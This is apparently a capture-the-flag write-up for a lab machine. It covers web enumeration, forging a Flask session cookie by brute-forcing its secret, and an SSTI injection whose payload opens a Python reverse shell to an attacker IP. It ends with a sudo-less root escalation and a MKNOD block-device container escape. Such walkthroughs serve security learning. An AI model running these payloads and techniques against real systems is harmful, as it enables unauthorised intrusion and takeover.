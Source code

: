 # Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:
[CHANGELOG](./changelog.png)

We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json
[MANIFEST](./manifest.png)

We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

[main-bundle](./main-bundle.png)
[dev-bundle](./dev-bundle.png)

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.
[burp](./burp.png)

We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: [wiz](./wizard_id.png)

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```
[grep](./grep.png)

### Root Flag
[flag](./flag)
